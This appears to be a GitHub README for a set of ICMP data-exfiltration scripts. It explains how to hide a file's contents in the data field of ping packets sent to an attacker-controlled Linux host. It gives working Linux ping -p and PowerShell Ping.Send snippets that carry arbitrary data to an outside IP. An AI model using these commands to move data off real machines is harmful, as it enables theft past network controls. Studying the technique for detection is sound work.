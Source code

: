# ICMP-Exfiltration-Scripts
This repository contains the necessary scripts to exfiltrate the contents of a file from a Windows or Linux machine using the ICMP protocol (ping requests) to a Linux machine under your control.

- **icmpExfiltration.py**: Python script to exfiltrate a file from a Linux machine.
- **winIcmpExfiltration.ps1**: Powershell script to exfiltrate a file from a Windows machine.
- **icmpCapture.py**: Script to capture the exfiltrated file.



## More Information
### Using ICMP for Data Exfiltration

Malicious actors can use ICMP (Internet Control Message Protocol) to exfiltrate data, exploiting the fact that organizations often overlook the risks associated with allowing outbound ICMP traffic.

### How Does It Work?

ICMP packets include an optional "Data" field of variable length, which can be used to transmit arbitrary information.

![ICMP Packet Structure](images/ICMP Exfiltration.png)

By default, if an ICMP echo request originates from a standard Windows ping, the data field will look something like this:

![Windows ICMP Data Field](ICMP Exfiltration-1.png)

However, if the request comes from a Linux system, the data field might look like this:

![Linux ICMP Data Field](ICMP Exfiltration-2.png)

### Modifying the Data Field

There are system tools available that allow us to write arbitrary information into this Data field.

#### *Linux*

- You can use the `-p` (pattern) flag with the `ping` command to send a specific sequence of up to 32 bytes (16 characters).
  
  ```bash
  ping -p <HEX_BYTES> <IP_ADDRESS>
  ```

  This command sends the specified hexadecimal byte sequence to the target IP address.

  ![Linux Ping Command Example](ICMP Exfiltration-3.png)

  ![Linux Ping Data Field Example](ICMP Exfiltration-4.png)

#### *Windows*

- In Windows, you can use PowerShell's `System.Net.NetworkInformation.Ping` to achieve a similar effect, and you can send more than 32 bytes.

  ```powershell
  $ping = New-Object System.Net.NetworkInformation.Ping
  $buffer = [Text.Encoding]::ASCII.GetBytes("YourDataHere")
  $ping.Send("IP_ADDRESS", 120, $buffer)
  ```

  This PowerShell script allows you to send custom data to the target IP address via ICMP echo requests.



### Practical Considerations

While using ICMP for exfiltration might bypass some security controls, it’s important to note that many modern security systems can detect and block unusual ICMP traffic patterns. For instance, an intrusion detection system (IDS) might flag a series of ICMP packets with non-standard data patterns.

Thus, while ICMP exfiltration can be effective in environments with less stringent monitoring, it's not foolproof and should be considered within the broader context of network security.


